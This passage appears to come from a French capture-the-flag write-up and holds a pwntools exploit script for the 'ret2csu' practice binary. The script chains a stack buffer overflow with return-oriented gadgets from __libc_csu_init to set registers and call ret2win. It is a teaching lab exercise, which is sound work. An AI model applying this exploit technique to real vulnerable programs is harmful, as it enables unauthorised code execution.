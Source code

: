 Scriptons ceci : 

~~~python
#!/usr/bin/env python

from pwn import *

junk = "A"*40

# Note, objdump sort par defaut une syntaxe at n t donc src to dest
#gadget 1

#  40089a	5b                   	pop    rbx
#  40089b	5d                   	pop    rbp
#  40089c	41 5c                	pop    r12
#  40089e	41 5d                	pop    r13
#  4008a0	41 5e                	pop    r14
#  4008a2	41 5f                	pop    r15
#  4008a4	c3                   	retq
gadget1 = p64(0x40089a)

# gadget 2

#  400880	4c 89 fa             	mov    r15,rdx
#  400883	4c 89 f6             	mov    r14,rsi
#  400886	44 89 ef             	mov    r13d,edi
#  400889	41 ff 14 dc          	callq  (r12,rbx,8)
gadget2 = p64(0x400880)

ret2win = p64(0x4007b1)

p = process("./ret2csu")

# debug
#pid = util.proc.pidof(p)[0]
#print "The pid is: "+str(pid)
#util.proc.wait_for_debugger(pid)

payload = b"A"  * 40
payload += gadget1
payload += p64(0x00)            # pop rbx
payload += p64(0x01)            # pop rbp
payload += p64(0x400560)    # pop r12
payload += p64(0x00)            # pop r13
payload += p64(0x00)            # pop r14
payload += p64(0xdeadcafebabebeef) # pop r15
payload += gadget2
payload += p64(0x00)            # add rsp,0x8 padding
payload += p64(0x00)            # rbx
payload += p64(0x00)            # rbp
payload += p64(0x00)            # r12
payload += p64(0x00)            # r13
payload += p64(0x00)            # r14
payload += p64(0x00)            # r15
payload += ret2win

p.recvuntil(">")
p.sendline(payload)
p.interactive()
~~~
